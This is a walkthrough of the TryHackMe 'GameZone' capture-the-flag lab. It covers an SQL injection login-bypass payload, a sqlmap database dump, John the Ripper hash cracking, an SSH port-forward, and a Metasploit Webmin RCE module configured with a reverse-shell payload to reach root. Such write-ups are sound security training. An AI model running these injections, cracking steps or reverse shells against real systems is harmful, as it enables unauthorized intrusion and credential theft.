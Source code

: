 ```yaml
---
slug: gamezone-walkthrough
title: TryHackMe - GameZone - Walkthrough
authors: bw
tags: [learning, gamezone, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [GameZone][gz]. Let’s get started!

# Deploy the Machine
Deploy the machine and verify access through the website. Right away, we can answer our first question. You can do a reverse image search on the image they describe for the first answer, or if you know what game the character is from you can Google the name!

# Obtain access via SQLi
This task is pretty simple. Let’s just follow along.

Enter `' or 1=1 -- -` as our username and leave the password blank. We get redirected to a page and that is our answer!

![g1](/static/img/thm/gz/g1.webp)

# Using SQLMap
Here we are going to use SQLMap to exploit this form on the “Game Zone Portal” page.

Let’s start BurpSuite in order to intercept a request. Make sure you have your proxy turned on and intercept on, then enter anything into the search field.

![g2](/static/img/thm/gz/g2.png)

Let’s copy that request into a `.txt` file so we can pass it into SQLMap later.

We can now format our SQLMap command:

`sqlmap -r request.txt --dbms=mysql --dump`

Run that command and SQLMap will begin testing different methods.

Once complete, we see the output of two tables. We can grab the next 3 answers from this output.

![g3](/static/img/thm/gz/g3-1.png)

# Cracking a password with JohnTheRipper
Make sure to copy the hash to a file, so we can run JohnTheRipper against it.

The format for JohnTheRipper is the following:

```bash
john hash.txt --wordlist=$PATH/rockyou.txt --format=Raw-SHA256
```
Run this and we get our de-hashed password!

![g4](/static/img/thm/gz/g4.webp)

Now ssh into the machine and find the user flag!

![g5](/static/img/thm/gz/g5.png)

# Exposing Services with Reverse SSH Tunnels
Now let’s run ss to get socket information. Run the following on the victim machine:

`ss -tulpn`

We need to expose port 10000 to us. We can run the following command in a new terminal window on our local machine:

`ssh -L 10000:localhost:10000 <username>@<victim_ip>`

From here we can open up a new browser tab and navigate to `localhost:10000`

**NOTE:** Make sure to turn your BurpSuite proxy off if the page isn’t loading!

![g6](/static/img/thm/gz/g6-1.webp)

Login with our already known credentials to get the CMS version.

# Privilege Escalation with Metasploit
We can load up Metasploit on our attack machine (`msfconsole`) and search for an exploit:

`search webmin 1.58`

We find a Remote Code Execution (RCE) exploit! Let’s try that.

![g7](/static/img/thm/gz/g7.webp)

```bash
use 1
options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run
```
The session was created in the background, so lets open it: `sessions 1`

`whoami`
`cat /root/root.txt`

![g8](/static/img/thm/gz/g8.png)

# Review
That was a really fun room! It covered SQL injection, hash cracking, reverse SSH tunnels, and metasploit! I really enjoyed this room. Granted, it was easy and walked you through most of it, but we still learned a lot in the process!

# References
[TryHackMe][thm] | [GameZone][gz]

[thm]: https://tryhackme.com
[gz]: https://tryhackme.com/why-subscribe?roomCode=gamezone